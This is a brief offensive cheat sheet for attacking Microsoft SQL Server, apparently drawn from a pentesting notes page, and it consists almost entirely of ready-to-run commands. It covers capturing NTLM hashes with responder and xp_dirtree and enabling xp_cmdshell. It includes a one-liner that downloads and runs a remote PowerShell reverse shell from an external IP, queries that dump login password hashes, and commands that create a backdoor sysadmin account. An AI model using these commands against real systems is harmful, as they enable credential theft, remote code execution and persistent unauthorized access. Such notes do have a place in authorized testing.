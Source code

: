 '''
cp /usr/share/doc/python3-impacket/examples/mssqlclient.py 
sudo python3 mssqlclient.py USER:PASS@IP

SQL> select @@ version;

#Steal NTLM hash
sudo responder -I <interface> #Run that in other console
SQL> exec master..xp_dirtree '\\<YOUR_RESPONDER_IP>\test' #Steal the NTLM hash, crack it with john or hashcat

#Try to enable code execution
SQL> enable_xp_cmdshell

#Execute code, 2 sintax, for complex and non complex cmds
SQL> xp_cmdshell whoami /all
SQL> EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://10.10.14.13:8000/rev.ps1") | powershell -noprofile'

  
SELECT name FROM master.dbo.sysdatabases #Get databases
SELECT * FROM <databaseName>.INFORMATION_SCHEMA.TABLES; #Get table names
#List Linked Servers
EXEC sp_linkedservers
SELECT * FROM sys.servers;
#List users
select sp.name as login, sp.type_desc as login_type, sl.password_hash, sp.create_date, sp.modify_date, case when sp.is_disabled = 1 then 'Disabled' else 'Enabled' end as status from sys.server_principals sp left join sys.sql_logins sl on sp.principal_id = sl.principal_id where sp.type not in ('G', 'R') order by sp.name;
#Create user with sysadmin privs
CREATE LOGIN hacker WITH PASSWORD = 'P@ssword123!'
sp_addsrvrolemember 'hacker', 'sysadmin'
```
